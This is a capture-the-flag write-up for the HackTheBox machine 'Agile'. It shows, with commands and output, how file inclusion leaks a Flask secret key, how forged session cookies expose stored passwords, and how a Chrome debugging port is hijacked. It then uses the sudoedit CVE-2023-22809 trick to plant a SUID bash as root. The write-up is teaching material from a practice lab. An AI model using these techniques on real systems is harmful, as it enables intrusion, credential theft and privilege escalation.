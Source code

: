 # Agile

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 10.129.172.106
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-06 09:31 EST
Nmap scan report for 10.129.172.106
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

We need to add `superpass.htb` to our `/etc/hosts` file to access port 80.

### SuperPassword --> LFI

The website advertised a password manager.

<figure><img src="../../.gitbook/assets/image (4) (1) (7).png" alt=""><figcaption></figcaption></figure>

I tested by registering a user to see what functionalities this application has. I registed a username and got an error, revealing that this is a Flask application. Not sure if this was supposed to happen

<figure><img src="../../.gitbook/assets/image (21) (2).png" alt=""><figcaption></figcaption></figure>

Anyways, when I tried again it worked and brought me to a dashboard where I can add a password and Export passwords.

<figure><img src="../../.gitbook/assets/image (20) (8).png" alt=""><figcaption></figcaption></figure>

The Export function looks rather exploitable. I added some passwords, then tried to download the file and was presented with this HTTP request:

```http
GET /download?fn=newuser_export_611199da8a.csv HTTP/1.1
Host: superpass.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: remember_token=9|8f50cc62e035672203937ef350c45d6a6780afafd9114b725dfb34ffa10cd42e92e484635b44b3f13d76ce1f6af818f2501684844daf93217e66ec4af933165f; session=.eJwlzjEOwzAIAMC_MHewgYDJZyJiQO2aNFPVvzdS51vuA1sdeT5hfR9XPmB7BaygREnUXHNahqQzMpG1bqUkrMWFSN3CzW4tHTI6Kk5H8d0jVaa6OZlbaFMxDqlR0tBmYx6Yfei-hA0WGr4IlfalocRu0wTuyHXm8d8YfH9o4y4B.ZAX6Tg.txUnjeEEeD_3BB80vD96et6vwwU
Upgrade-Insecure-Requests: 1
```

The `fn` paramete was vulnerable to LFI.

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

We find 4 users, `runner`, `corum`, `edwards`, and `dev_admin`. We know that this is a Flask application, so the source code for `app.py` is probably in some `/app/app/main` directory or something along those lines.  Some testing revealed that it was located in `../app/app/superpass/app.py`.

We can grab the SECRET\_KEY variable from here and be able to spoof our own cookies using `flask-unsign`.

```
app.config['SECRET_KEY'] = 'MNOHFl8C4WLc3DQTToeeg8ZT7WpADVhqHHXJ50bPZY6ybYKEr76jNvDfsWD'
```

### Cookie Spoofing --> SSH Creds

Now that we have the SECRET\_KEY, we can decrypt the cookie.

{% code overflow="wrap" %}
```
$ flask-unsign --decode --cookie '.eJwlzjEOwzAIAMC_MHewgYDJZyJiQO2aNFPVvzdS51vuA1sdeT5hfR9XPmB7BaygREnUXHNahqQzMpG1bqUkrMWFSN3CzW4tHTI6Kk5H8d0jVaa6OZlbaFMxDqlR0tBmYx6Yfei-hA0WGr4IlfalocRu0wTuyHXm8d8YfH9o4y4B.ZAX6Tg.txUnjeEEeD_3BB80vD96et6vwwU' --secret 'MNOHFl8C4WLc3DQTToeeg8ZT7WpADVhqHHXJ50bPZY6ybYKEr76jNvDfsWD'
{'_fresh': True, '_id': '733e330a7ec9ed6ea424339019f73647f4f22319da996eaf78681272ca26abade76c7a9a39a9d707694d6f8f6029c04482e187b5d984638a563f715026db9c96', '_user_id': '9'}
```
{% endcode %}

Now, we can change the `_user_id` parameter and hopefully login as other users with stored passwords. We can keep changing the user ID to anything we want and keep getting different passwords. Here are some interesting ones:

```html
<td>hackthebox.com</td>
    <td>0xdf</td>
    <td>762b430d32eea2f12970</td>
<td>mgoblog.com</td>
    <td>0xdf</td>
    <td>5b133f7a6a1c180646cb</td>
<td>agile</td>
    <td>corum</td>
    <td>5db7caa1d13cc37c9fc2</td>
```

That last one for `corum` is a valid password for SSH.

<figure><img src="../../.gitbook/assets/image (5) (8).png" alt=""><figcaption></figcaption></figure>

Then we can easily grab the user flag.

## Privilege Escalation

### Chrome Debugging --> Edwards

I ran a LinPEAS scan and thsi was the one thing that stood out the most:

{% code overflow="wrap" %}
```
runner      3486  0.1  2.5 34023392 103408 ?     Sl   14:49   0:00                      _ /usr/bin/google-chrome --allow-pre-commit-input --crash-dumps-dir=/tmp --disable-background-networking --disable-client-side-phishing-detection --disable-default-apps --disable-gpu --disable-hang-monitor --disable-popup-blocking --disable-prompt-on-repost --disable-sync --enable-automation --enable-blink-features=ShadowDOMV0 --enable-logging --headless --log-level=0 --no-first-run --no-service-autorun --password-store=basic --remote-debugging-port=41829 --test-type=webdriver --use-mock-keychain --user-data-dir=/tmp/.com.google.Chrome.MLKYLq --window-size=1420,1080 data:
```
{% endcode %}

It would appear that there is a --remote-debugging-port being used. Essentially, it means that this port is open and running Chrome. With credentials for SSH, we can port forward this and perhaps access it from our machine to see what the user is doing.

So we can first port forward this thing using `ssh`.

```bash
ssh -L 41829:127.0.0.1:41829 corum@superpass.htb
```

Afterwards, we can use Burpsuite's Chromium browser (that is in-built) to access this thing. This resource was rather helpful:

{% embed url="https://developers.google.com/cast/docs/debugging/remote_debugger" %}

Just add `localhost:41829` to the Discover Network Targets portion, and we will pick up on the target.

<figure><img src="../../.gitbook/assets/image (7) (7).png" alt=""><figcaption></figcaption></figure>

We can inspect this to basically spy on the user.&#x20;

<figure><img src="../../.gitbook/assets/image (10) (1) (5).png" alt=""><figcaption></figcaption></figure>

I visited the `/vault` directory and found some secret credentials.

<figure><img src="../../.gitbook/assets/image (227).png" alt=""><figcaption></figcaption></figure>

Then, we can `su` to `edwards`.

### Sudoedit CVE-2023-22809

Checking `edwards` `sudo` privileges, we see this:

```bash
edwards@agile:/home/corum$ sudo -l
[sudo] password for edwards: 
Matching Defaults entries for edwards on agile:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User edwards may run the following commands on agile:
    (dev_admin : dev_admin) sudoedit /app/config_test.json
    (dev_admin : dev_admin) sudoedit /app/app-testing/tests/functional/creds.txt
```

In short, we edit some files as `dev_admin`. I read files and found some credentials

{% code overflow="wrap" %}
```
# creds.txt
edwards:1d7ffjwrx#$d6qn!9nndqgde4
# config_test.json
"SQL_URI": "mysql+pymysql://superpasstester:VUO8A2c2#3FnLq3*a9DX1U@localhost/superpasstest"
```
{% endcode %}

However, the credentials here lead to dead ends, with the SQL database having nothing of interest. I ran a `pspy64` to see if there were any exploitable processes. This one line looked rather suspicious because `dev_admin` had write access to it:

{% code overflow="wrap" %}
```
2023/03/06 15:16:01 CMD: UID=0    PID=37141  | /bin/bash -c source /app/venv/bin/activate 

edwards@agile:/tmp$ ls -la /app/venv/bin/activate
-rw-rw-r-- 1 root dev_admin 1976 Mar  6 15:15 /app/venv/bin/activate
```
{% endcode %}

Checking the `sudo` version online, I found that it was vulnerable to CVE-2023-22809.

In short, this exploit allows us to write in **any file we want** using `sudoedit` despite the restrictions we have in place. The `activate` file I found earlier was a `bash` script being executed by root. So, all we need to do is append some commands to it to make `/bin/bash` an SUID binary.

{% embed url="https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf" %}

Following the PoC, we just /app/venv/bin/activateave to execute these commands:

```bash
export EDITOR='vim -- /app/venv/bin/activate'
sudo -u dev_admin sudoedit /app/config_test.json
```

This opens up the `activate` file and we are free to edit it. We can add `chmod u+s /bin/bash` into it. Then we can easily become `root`.

<figure><img src="../../.gitbook/assets/image (228).png" alt=""><figcaption></figcaption></figure>
